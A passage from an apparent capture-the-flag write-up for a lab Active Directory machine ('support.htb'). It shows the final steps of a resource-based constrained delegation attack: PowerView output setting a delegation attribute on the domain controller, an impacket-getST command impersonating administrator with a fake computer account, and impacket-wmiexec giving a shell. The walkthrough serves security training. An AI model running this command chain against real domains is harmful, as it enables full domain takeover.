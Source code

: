 ```
Verbose: [Get-DomainObject] Extracted domain 'support.htb' from 'CN=DC,OU=Domain Controllers,DC=support,DC=htb'
Verbose: [Get-DomainSearcher] search base: LDAP://DC=support,DC=htb
Verbose: [Get-DomainObject] Get-DomainObject filter string: (&(|(distinguishedname=CN=DC,OU=Domain Controllers,DC=support,DC=htb)))
Verbose: [Set-DomainObject] Setting 'msds-allowedtoactonbehalfofotheridentity' to '1 0 4 128 20 0 0 0 0 0 0 0 0 0 0 0 36 0 0 0 1 2 0 0 0 0 0 5 32 0 0 0 32 2 0 0 2 0 44 0 1 0 0 0 0 0 36 0 255 1 15 0 1 5 0 0 0 0 0 5 21 0 0 0 27 219 253 99 129 186 131 201 230 112 66 11 227 21 0 0' for object 'DC$'
*Evil-WinRM* PS C:\programdata> Get-DomainComputer dc -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}


*Evil-WinRM* PS C:\programdata> 
```
With the new Computer Object created, I shall use it to create a ticket for user `administrator`
```
impacket-getST support.htb/fake01:123456 -dc-ip 10.10.11.174 -impersonate administrator -spn www/dc.support.htb
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@www_dc.support.htb@SUPPORT.HTB.ccache
```
Then I get the shell via `impacket-wmiexec`
```
impacket-wmiexec support.htb/administrator@dc.support.htb -no-pass -k                                          
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```
The root flag can be found at `C:\Users\Administrator\Desktop`
